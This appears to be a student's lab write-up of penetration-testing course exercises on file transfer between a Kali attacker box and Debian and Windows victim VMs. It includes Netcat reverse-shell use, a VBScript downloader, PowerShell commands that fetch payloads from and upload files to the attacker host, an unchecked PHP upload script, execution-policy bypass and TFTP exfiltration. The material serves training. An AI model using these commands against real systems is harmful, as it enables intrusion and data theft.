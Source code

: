 Exercises

# 16.1.3.2

# 16.1.3.2.1. Start the Pure-FTPd FTP server on your Kali system, connect to it using the FTP client on the Debian lab VM, and observe how the interactive prompt works.

On the Debian client terminal, here is the interactive session that uses the ftp client
![6665321c53d7117b44ad8d1309633053.png](../../_resources/35077e833db647378221f8f1db8544de.png)


# 16.1.3.2.2. Attempt to log in to the FTP server from a Netcat reverse shell and see what happens.

From Kali, netcat into the Debian client and ftp back into the Kali server. We see it is non-interactive. Then, netcat into the Debian client again and upgrade to an interactive shell using Python. Try to ftp back into the Kali box and we see it's interactive.
![2eddbc47a3fbb60eca21eb673c7fc8d4.png](../../_resources/29fa739f4f514ad3a55ee989744d99be.png)


# 16.1.3.2.3. Research alternatives methods to upgrade a non-interactive shell.
https://gtfobins.github.io/#+non-interactive%20reverse%20shell



# 16.2.5.1 
## 16.2.5.1.1. Use VBScript to transfer files in a non-interactive shell from Kali to Windows.

Here is a VBScript script (wget.vbs) on the Windows client that acts as a simple HTTP downloader
```vbscript
strUrl = WScript.Arguments.Item(0) 
StrFile = WScript.Arguments.Item(1) 
Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 
Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 
Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 
Const HTTPREQUEST_PROXYSETTING_PROXY = 2 
Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts 
Err.Clear 
Set http = Nothing 
Set http = CreateObject("WinHttp.WinHttpRequest.5.1") 
If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") 
If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") 
If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") 
http.Open "GET", strURL, False 
http.Send 
varByteArray = http.ResponseBody 
Set http = Nothing 
Set fs = CreateObject("Scripting.FileSystemObject") 
Set ts = fs.CreateTextFile(StrFile, True) 
strData = "" 
strBuffer = "" 
For lngCounter = 0 to UBound(varByteArray) 
ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) 
Next 
ts.Close 
```

Next we will run it using cscript. It will download the evil.txt file from Kali's web document root.
```
C:\Users\Administrator\Desktop>cscript wget.vbs http://192.168.119.214/evil.txt evil.txt                        
Microsoft (R) Windows Script Host Version 5.812                              
Copyright (C) Microsoft Corporation. All rights reserved.                    C:\Users\Administrator\Desktop>more evil.txt                                 Muhahhahahaahahhahaa                                                                                                                                      C:\Users\Administrator\Desktop> 
```


## 16.2.5.1.2. Use PowerShell to transfer files in a non-interactive shell from Kali to Windows and vice versa.

### Non-interactive file transfer from Kali to Windows
First, allow PowerShell scripts to run (it is restricted by default).
```plaintext
C:\Users\Administrator\Desktop>powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1  
```

Download the evil.txt file from Kali to Windows.
```plaintext
C:\Users\Administrator\Desktop>powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://192.168.119.214/evil.txt', 'evil.exe') 
```

OR we can execute the script without saving it to disk!
```plaintext
C:\Users\Administrator\Desktop>powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://192.168.119.214/evil.txt', 'new-exploit.txt')                                                           C:\Users\Administrator\Desktop>more new-exploit.txt                          Muhahhahahaahahhahaa
```

### Download from  Windows to Kali (or upload from Windows to Kali)
On Kali, create a powershell script and save it to /var/www/html. This script allows anyone that interacts with upload.php to upload files to /var/www/uploads directory.
```plaintext
kali@kali:~$ cat /var/www/html/upload.php
<?php
$uploaddir = '/var/www/uploads/';

$uploadfile = $uploaddir . $_FILES['file']['name'];

move_uploaded_file($_FILES['file']['tmp_name'], $uploadfile)
?>
kali@kali:~$
```

Then, create an uploads folder, modify its permissions so that user www-data can write to it.
```plaintext
kali@kali:/var/www$ sudo mkdir /var/www/uploads
kali@kali:/var/www$ dir
html  uploads
kali@kali:/var/www$ ls
html  uploads
kali@kali:/var/www$ ps -ef | grep apache
root        5395       1  0 04:02 ?        00:00:00 /usr/sbin/apache2 -k start
www-data    5396    5395  0 04:02 ?        00:00:00 /usr/sbin/apache2 -k start
kali@kali:/var/www$ sudo chown www-data: /var/www/uploads
kali@kali:/var/www$ ls -la
total 16
drwxr-xr-x  4 root     root     4096 Oct  1 04:26 .
drwxr-xr-x 12 root     root     4096 May  8 08:18 ..
drwxr-xr-x  3 root     root     4096 Oct  1 04:25 html
drwxr-xr-x  2 www-data www-data 4096 Oct  1 04:26 uploads
```

On Windows, run powershell to upload the file important.txt to Kali
```
C:\Users\Administrator\Desktop>powershell (New-Object System.Net.WebClient).UploadFile('http://192.168.119.214/upload.php', 'important.txt')  
```

We see that important.txt has been downloaded to Kali!
```
kali@kali:/var/www/uploads$ cat /var/www/uploads/important.txt 
Nothing important to see here.
```


## 16.2.5.1.3. For PowerShell version 3 and above, which is present by default on Windows 8.1 and Windows 10, the cmdlet *Invoke-WebRequest* 403 was added. Try to make use of it in order to perform both upload and download requests to your Kali machine.

### Download a file from Kali
```plaintext
C:\Users\Administrator\Desktop>powershell (Invoke-WebRequest -Uri "http://192.168.119.214/evil.txt" -OutFile "evil.txt")                       
C:\Users\Administrator\Desktop>more evil.txt                                 Muhahhahahaahahhahaa 
```

### Upload a file to Kali
Didn't do this


## 16.2.5.1.4. Use TFTP to transfer files from a non-interactive shell from Kali to Windows.

On Kali, install atftp, create a directory where it can store and serve files, update the ownership so we can write files to it, then run it as a daemon on UDP port 69.
```plaintext
kali@kali:~$ sudo apt update && sudo apt install atftp
kali@kali:~$ sudo mkdir /tftp
kali@kali:~$ sudo chown nobody: /tftp
kali@kali:~$ sudo atftpd --daemon --port 69 /tftp
```

On Windows, use the tftp -i comand
```plaintext
C:\Users\Administrator\Desktop>tftp -i 192.168.119.214 put tryharder.txt     Transfer successful: 10 bytes in 1 second(s), 10 bytes/s  
```

Confirm that the file was downloaded to Kali
```plaintext
kali@kali:/tftp$ ls -la tryharder.txt 
-rw-r--r-- 1 nobody nogroup 10 Oct  1 06:40 tryharder.txt
kali@kali:/tftp$ 
```



















